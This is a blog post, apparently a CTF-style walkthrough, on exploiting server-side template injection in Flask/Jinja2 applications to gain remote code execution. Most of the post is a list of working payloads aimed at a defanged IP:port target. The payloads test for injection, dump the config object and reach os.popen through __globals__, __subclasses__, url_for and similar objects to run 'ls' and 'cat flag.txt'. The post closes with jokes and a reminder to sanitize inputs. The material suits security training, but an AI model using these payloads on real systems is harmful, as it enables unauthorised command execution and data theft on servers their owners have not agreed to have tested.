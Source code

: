 ```yaml
---
title: 'JINJA2 - Remote Code Execution (RCE)'
description: ""
published: 2023-05-18
redirect_from: 
            - http://salucci.ch/2023/05/18/jinja2-remote-code-execution-rce/
categories: "code, execution, flask, jinja2, python, rce, remote, ssti"
hero: ./img/wp-content-uploads-2023-05-response1.png
---
```



# **Requirement**

- Flask / Jinja2 Website

#### **Goal**

First of all, in a **Jinja injection** you need to **find a way to escape from the sandbox and recover access the regular python execution flow**. To do so, you need to **abuse objects** that are from the non-sandboxed environment but are accessible from the sandbox.

Then, from these objects we need to get to the class: \`\` in order to try to recover defined classes. This is because from this object we can call the `__subclasses__` method and access all the classes from the non-sandboxed python env.

In order to access that object class, you need to access a class object and then access either `__base__, __mro__()[-1]` or `.mro()[-1]`. And then, after reaching this object class we call `__subclasses__()`.

Having recovered \`\` and called `__subclasses__` we can now use those classes to **read and write files and exec code**.

The call to `__subclasses__` has given us the opportunity to access hundreds of new functions, we will be happy just by accessing the file class to **read/write files** or any class with access to a class that allows to execute commands (like os).

### **PoC - Proof of Concept**

1. Enter to the url `hxxp[://]159[.]65[.]48[.]156:30989/` following `{{ 7*7 }}`.

```
<code class="language-bash">hxxp[://]159[.]65[.]48[.]156:30989/{{ 7*7 }}
```

2. If the site shows you `49` this is an indicator that **SSTI - Server Side Injection Template** is available.

---

### **Here is the Fun Part**

3. Check if one of the variables can be dumped.

```
<code class="language-bash">dict
config
request
```

#### **URL Payloads**

```
<code class="language-bash">hxxp[://]159[.]65[.]48[.]156:30989/{{ dict }}
hxxp[://]159[.]65[.]48[.]156:30989/{{ config }}
hxxp[://]159[.]65[.]48[.]156:30989/{{ request }}
```

4. If `config` is available this can be abused to **RCE**!
5. Let's exploit!
6. Enter this payload:

```
hxxp[://]159[.]65[.]48[.]156:30989/{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

#### **Expected Result**

You should get something like this.





![](./img/wp-content-uploads-2023-05-response1.png)



**Output from the server /**







#### **URL Payloads**

```
hxxp[://]159[.]65[.]48[.]156:30989/{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}
```

7. From here you can now edit your commands, like mine shown above to **cat flag.txt**

#### **More Payloads**

```
hxxp[://]159[.]65[.]48[.]156:30989/{{().__class__.__base__.__subclasses__()}}
hxxp[://]159[.]65[.]48[.]156:30989/{%for(x)in().__class__.__base__.__subclasses__()%}{%if'war'in(x).__name__ %}{{x()._module.__builtins__['__import__']('os').popen('ls').read()}}{%endif%}{%endfor%}
hxxp[://]159[.]65[.]48[.]156:30989/{{g.pop.__globals__.__builtins__['__import__']('os').popen('ls').read()}}
hxxp[://]159[.]65[.]48[.]156:30989/{{url_for.__globals__.__builtins__['__import__']('os').popen('ls').read()}}
hxxp[://]159[.]65[.]48[.]156:30989/{{application.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}
hxxp[://]159[.]65[.]48[.]156:30989/{{get_flashed_messages.__globals__.__builtins__['__import__']('os').popen('ls').read()}}
```

### **Tip-of-the-Day**

Use a Browser Add-In called **HackBar**







[Google Chrome Add-In](https://chrome.google.com/webstore/detail/hackbar/ginpbkfigcoaokgflihfhhmglmbchinc)





[Mozilla Firefox Add-In](https://addons.mozilla.org/de/firefox/addon/hackbartool/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search)











---









> 
>
> > 
> >
> > **Why don't Python programmers like snakes?**  
> > _Because they have issues with Remote Code Execution!_
> >
> > 
>
> 
>
> 
>
> > 
> >
> > **Why did the Flask app feel insecure about its Jinja2 templates?**  
> > _Because it heard they're prone to "Execution" without a proper "context"!_
> >
> > 
>
> 
>
> 
>
> > **Remember, folks, code responsibly and always sanitize your inputs!**
>
> 
>
> trustinveritas





![](./img/wp-content-uploads-2023-05-26-programmer.png)


